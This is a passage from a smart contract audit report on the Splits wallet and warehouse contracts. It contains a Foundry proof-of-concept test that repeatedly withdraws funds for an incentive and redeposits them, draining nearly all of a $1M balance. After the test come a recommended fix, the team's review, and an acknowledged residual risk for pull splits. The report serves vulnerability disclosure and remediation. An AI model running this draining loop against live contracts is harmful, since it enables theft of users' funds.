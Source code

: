 ```solidity
    dealSplit(address(wallet), token, 0, 1_000_000e6);

    // begin the attack
    address attacker = makeAddr("attacker");
    vm.startPrank(attacker);

    address[] memory _tokens = new address[](1);
    _tokens[0] = token;
    uint[] memory _amounts = new uint[](1);
    uint amountInWallet;

    // perform 2000 cycles of withdrawing (for an incentive) and redepositing, earning 1% each time
    for (uint i; i < 2000; i++) {
        (, _amounts[0]) = wallet.getSplitBalance(token);
        warehouse.withdraw(address(wallet), _tokens, _amounts, attacker);
        (amountInWallet,) = wallet.getSplitBalance(token);
        wallet.depositToWarehouse(token, amountInWallet);
    }

    // confirm that 99.9999% of the funds have been stolen
    (splitBal, warehouseBal) = wallet.getSplitBalance(token);
    assertGt(IERC20(token).balanceOf(attacker), 999_999e6);
    assertEq(splitBal, 0);
    assertLt(warehouseBal, 1e6);
}
```

The test passes, showing that the attacker has stolen all but $1 of the initial $1mm.

### Recommendation

The `depositToWarehouse()` function should be permissioned and only accessible to non-owners via the `distribute()` function.

### Review

Fixed in [PR #24](https://github.com/0xSplits/splits-contracts-monorepo/pull/24) by splitting push and pull splits into their own unique implementations. As a result, there is no way to redeposit assets in push splits, and no way to withdraw assets in pull splits.

The only exception is if a pull split allows withdrawals directly from the Warehouse. In this case, an attacker could call `withdraw()` on the warehouse, sending funds to the Wallet and earning the incentive, and then call `depositToWarehouse()` on the Wallet, sending the funds back to the Warehouse.

This situation is Acknowledged by the Splits team. They will add warnings to the docs and UI to warn users that a PullSplit where (a) withdrawal incentives are set on the Warehouse and (b) withdrawals are not paused on the warehouse, will be vulnerable to being drained.


## [H-02] Split ownership can be spoofed using `execCalls()`
